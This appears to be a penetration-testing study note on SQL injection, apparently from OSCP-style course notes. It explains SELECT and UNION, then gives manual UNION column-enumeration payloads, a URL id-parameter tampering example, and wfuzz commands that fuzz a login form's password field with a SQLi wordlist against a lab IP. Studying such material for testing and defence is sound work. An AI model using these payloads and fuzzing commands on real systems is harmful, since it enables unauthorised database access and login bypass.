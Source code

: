 ```yaml
---
description: 'PWK: 300-348'
---
```


# SQLi

## Introduction

Structured Query Language Injection (SQLi) is an attack on a web application database server that allows malicious queries to be executed.

* This vulnerability occurs when a web application communicates with a back end DB using user input that has not been properly validated

General Rule of Thumb:

<mark style="color:yellow;">Simply put, if you see a login page, ATTEMPT SQLi</mark>

## How a DB Works

* The SQL statement used to <mark style="color:green;">retrieve data</mark> is "<mark style="color:yellow;">SELECT</mark>"
* The SQL clause that can be used to <mark style="color:green;">retrieve data from multiple tables</mark> is "<mark style="color:yellow;">UNION</mark>"
* The SQL statement that is used to add data is "INSERT"

Conclusion:

Retrieving data from a <mark style="color:yellow;">single table in a database</mark> -- SELECT&#x20;

Retrieving data from <mark style="color:yellow;">multiple tables in a databse</mark> -- UNION

## Links

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection" %}
PayloadsAllTheThings GitHub Repo
{% endembed %}

{% embed url="https://www.securityidiots.com/Web-Pentest/SQL-Injection/" %}
SQLi Logic
{% endembed %}

## Manual MSSQL Injection

Do you see a seemingly vulnerable input field that you believe queries the database?

<mark style="color:yellow;">Make a request to it and capture it in burp // send to repeater tab</mark>

```
q=500' union select 1 -- 
q=500' union select 1,2 -- 
q=500' union select 1,2,3 -- 
q=500' union select 1,2,3,4 -- 
q=500' union select 1,2,3,4,5 -- 
q=500' union select 1,2,3,4,5,6,7 -- 
q=500' union select 1,2,3,4,5,6,7,8 -- 
```

* Be sure to check the response tab after you send every request as you do not know when it will return data!

### URL-based SQLi

* ID-based, this means that an object could possibly be referencing a back-end database
* Of course this is similar to Indirect Object Reference, or IDOR

Example:

`https://website/blog?id=1`

* We can attempt to mess with the ID parameter because it is calling the database

Instead, we can try:

`https://website.thm/blog?id=`<mark style="color:yellow;">`2;--`</mark>

* This will then make a call to a different table from the database as long as it is set to public

## Semi-Automatic SQLi

{% embed url="https://www.youtube.com/watch?v=c2OFrDVb3EM&t=2558s" %}
Go to 45 mins
{% endembed %}

1. Set URL variable ($URL) to your target you are attacking

```
export URL=http://192.168.1.181/index.php
echo $URL
```

&#x20; 2\. Find the backend processing for the handling of your input in the web application

* View source code
* Search for form elements they look like this: <mark style="color:yellow;">\<form</mark>
* Locate the script or action that it takes within that line of code it should be executing a php file
  * i.e. if it is <mark style="color:yellow;">checklogin.php</mark>
  * Make it your URL variable

```
export URL="http://192.168.1.181:80/checklogin.php"
```

&#x20;  3\. Locate quick-SQLi.txt, it should be something like: usr/share/seclists/Fuzzing/SQLi/quick-SQLi.txt

&#x20;  4\. Load up wfuzz:

* Check <mark style="color:yellow;">\<input name</mark>, in this case, it is <mark style="color:yellow;">myusername</mark>

```
wfuzz -c -z file,/usr/share/seclists/Fuzzing/SQLi/quick-SQLi.txt -d "myusername=admin&mypassword=FUZZ&Submit=Login" --hc 404 "$URL"
```

* You may get get a lot back
* Look at the chars
* Go back to the web app and manually authenticate using that payload and username
* Go through them until you get an error
* Determine what a valid and invalid error is depending on char size
* Be sure to block out the invalid errors in wfuzz as seen below
* For example, these chars are 109 and 444

```
wfuzz -c -z file,/usr/share/seclists/Fuzzing/SQLi/quick-SQLi.txt -d "myusername=admin&mypassword=FUZZ&Submit=Login" --hc 404 --hh 109,444 "$URL"
```

* Anything you get now should be attempted manually once more in the browser
